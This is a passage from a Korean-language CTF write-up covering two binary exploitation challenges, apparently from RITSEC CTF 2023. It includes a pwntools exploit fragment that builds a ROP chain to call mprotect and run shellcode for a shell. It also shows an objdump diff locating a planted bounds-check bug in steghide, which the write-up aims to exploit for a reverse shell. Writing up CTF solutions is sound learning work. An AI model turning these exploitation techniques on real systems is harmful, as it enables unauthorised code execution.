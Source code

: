 ```python

rop.clear_cache()
rop.call("mprotect", [stack - (stack & 0xFFF), 0x2000, 7])
p.sendline(rop.chain() + p64(stack + 0x5e) + asm(shell) + b'\n')

p.interactive()
```

RBP를 스왑해서 스택 프레임을 조작함으로써 fgets 내부에 ROP가 발생하게 하는 방법은 전혀 생각 못했다. 대회 기간에는 모든 바이너리 내부에서 0x0부터 0xFF까지 바이트코드를 찾아서 원하는 글씨를 만들어내는 풀이를 생각했는데, 너무 삽질 같아서 그냥 포기했었다.

RBP를 기준으로 입력을 수행하는 가젯이 있고, RBP를 조작할 수 있는 상황이라면, 이 둘을 반드시 연계하는 것을 기억해야겠다.

![9](9.png)



### [0x04] 참고 자료

---

- 출제자 write-up : [https://gitlab.ritsec.cloud/competitions/ctf-2023-public/-/tree/master/BIN-PWN/steg As A Service](https://gitlab.ritsec.cloud/competitions/ctf-2023-public/-/tree/master/BIN-PWN/alphabet)





## **Steg as a Service**

### [0x00] 요약

---

취약하게 만든 `steghide` 바이너리를 퍼징 또는 diff를 띄워서 익스플로잇하고, 바이너리 가젯만을 사용하여 리버스쉘을 띄우는 문제

### [0x01] 접근 방법

---

문제 Dockerfile 내부에서 사용되는 `steghide` 바이너리와 취약점이 해결됐다는 `steghide-patched` 바이너리 두 개를 제공해주는 걸 확인해 줄 수 있는데, 두 바이너리의 차이는 다음과 같다.

```bash
$ objdump -M intel -d ./steghide > s1.hex
$ objdump -M intel -d ./steghide-patched > s2.hex
$ diff s1.hex s2.hex
2c2
< ./steghide:     file format elf64-x86-64
---
> ./steghide-patched:     file format elf64-x86-64
32686c32686
<   41ee67:	0f 87 07 01 00 00    	ja     41ef74 <_ZN7BmpFile8readdataEv+0x1ba>
---
>   41ee67:	0f 83 07 01 00 00    	jae    41ef74 <_ZN7BmpFile8readdataEv+0x1ba>
```

